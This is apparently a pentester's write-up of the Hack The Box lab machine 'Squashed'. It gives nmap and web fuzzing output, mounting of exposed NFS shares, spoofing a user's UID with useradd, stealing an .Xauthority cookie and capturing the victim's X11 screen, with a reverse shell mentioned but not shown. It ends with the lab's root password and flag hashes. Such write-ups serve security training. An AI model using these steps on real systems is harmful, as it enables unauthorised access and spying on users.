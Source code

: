 # BOX NAME:

LINK: squashed@HTB[](https://www.vulnhub.com/entry/kioptrix-2014-5,62/)

### **IP=10.10.11.189**

**URL=http://10.10.11.189**

# Remote Enumeration & Scan-outputs:

### <ins>Host Discovery</ins>

```
[+] 10.10.11.189
```

### <ins>Nmap scan</ins>

```
└─# nmap -n -sS -sC -sV $IP -p-
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-19 15:38 EST
Nmap scan report for 10.10.11.191
Host is up (0.042s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      35045/tcp   mountd
|   100005  1,2,3      40197/tcp6  mountd
|   100005  1,2,3      44772/udp   mountd
|   100005  1,2,3      56743/udp6  mountd
|   100021  1,3,4      39749/udp6  nlockmgr
|   100021  1,3,4      40077/tcp6  nlockmgr
|   100021  1,3,4      44107/tcp   nlockmgr
|   100021  1,3,4      44190/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
8000/tcp  open  http     SimpleHTTPServer 0.6 (Python 3.8.10)
|_http-title: Directory listing for /
|_http-server-header: SimpleHTTP/0.6 Python/3.8.10
35045/tcp open  mountd   1-3 (RPC #100005)
41829/tcp open  mountd   1-3 (RPC #100005)
44107/tcp open  nlockmgr 1-4 (RPC #100021)
59025/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### <ins>Nikto scan</ins>

```
[+]
```

### <ins>Whatweb scan</ins>

```
└─# whatweb $URL | tr ',' '\n'
http://10.10.11.191 [200 OK] Apache[2.4.41]
 Bootstrap
 Country[RESERVED][ZZ]
 HTML5
 HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)]
 IP[10.10.11.191]
 JQuery[3.0.0]
 Script
 Title[Built Better]
 X-UA-Compatible[IE=edge]
```

# Fuzz

### ffuf

```
images                  [Status: 200, Size: 6225, Words: 298, Lines: 43, Duration: 47ms]
icons                   [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 47ms]
css                     [Status: 200, Size: 6309, Words: 301, Lines: 42, Duration: 3694ms]
js                      [Status: 200, Size: 2246, Words: 141, Lines: 23, Duration: 4367ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 45ms]
```

### feroxbuster

```
feroxbuster -u $URL -w /base/wordlists/web-fuzz/directory-list-2.3-big.txt -r --dont-scan=css,manual,js,images
```

# Special portfindings:

\[+\] Port 22 \[SSH\]
\[+\] Port 111 \[NFS\]

```
└─# showmount -e $IP
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *

└─# tree ross/*
ross/Desktop
ross/Documents
└── Passwords.kdbx 		#EFFING RABBIT-HOLE
ross/Downloads
ross/Music
ross/Pictures
ross/Public
ross/Templates
ross/Videos
```

# Local Filesystem Findings:

### **FILES OF INTEREST**

```
mount -t nfs $IP:/var/www/html/ html
mount -t nfs $IP:/home/ross ross

ll ross
drwxr-xr-x 14 1001 1001 4096 Jan 19 01:21 .
drwxr-xr-x  4 root root 4096 Jan 19 15:48 ..
lrwxrwxrwx  1 root root    9 Oct 20 09:24 .bash_history -> /dev/null
drwx------ 11 1001 1001 4096 Oct 21 10:57 .cache
drwx------ 12 1001 1001 4096 Oct 21 10:57 .config
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Desktop
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Documents
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Downloads
drwx------  3 1001 1001 4096 Oct 21 10:57 .gnupg
drwx------  3 1001 1001 4096 Oct 21 10:57 .local
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Music
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Pictures
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Public
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Templates
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Videos
lrwxrwxrwx  1 root root    9 Oct 21 09:07 .viminfo -> /dev/null
-rw-------  1 1001 1001   57 Jan 19 01:21 .Xauthority
-rw-------  1 1001 1001 2475 Jan 19 01:21 .xsession-errors
-rw-------  1 1001 1001 2475 Dec 27 10:33 .xsession-errors.old


> ls -ld html
drwxr-xr--  6 2017 www-data    4096 Jan 19 15:50 html
```

**SUID**

```
[+]
```

**SGID**

```
[+]
```

### **Dumps, outputs, other useful information**

**Kernel Info:**
*file /bin/bash ; echo -e " \\n" && lsb_release -a ; echo -e "\\n" && uname -a*

```
[+]
```

# Credentials:

```
username:password
```

# Hashes:

```
MD4:
MD5:
SHA1:
SHA512:
```

# Exploits and Payloads:

```
//GID/UID impersonation
useradd ssor -u 1001
useradd fake -u 2017

//steal .Xauthority cookies.
cat /ross/.Xauthority | base64
AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABBwnmKDoPbchgdiswsZhkrK
echo 'AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABBwnmKDoPbchgdiswsZhkrK' | base64 -d /tmp/.Xauthority
export XAUTHORITY=/tmp/.Xauthority
w (find tty)
xwd -root -screen -silent -display :0 > /tmp/screen.xwd
convert screen.xwd screen.png
```

![c8df8136004b185748a81624ec21fb76.png](../../_resources/c8df8136004b185748a81624ec21fb76.png)

# Writeup:

```
>Started with enumeration. Found NFS shares and exploited them.
>Assumed GID and UID to access the html. Placed a rev-shell and got a foothold.
>found nothing <- back to #1
>impersonate ssor -> steal xauthority cookie
>rootpassword $blingbling
```

==PROOFS==

user.txt: 59141fa14195b2b504438bcbd7ae20c8
root.txt: b5a3e0af0c592531950f76edaead7bb8

![0ab016b9086852eb91309e0e3cf44a32.png](../../_resources/0ab016b9086852eb91309e0e3cf44a32.png)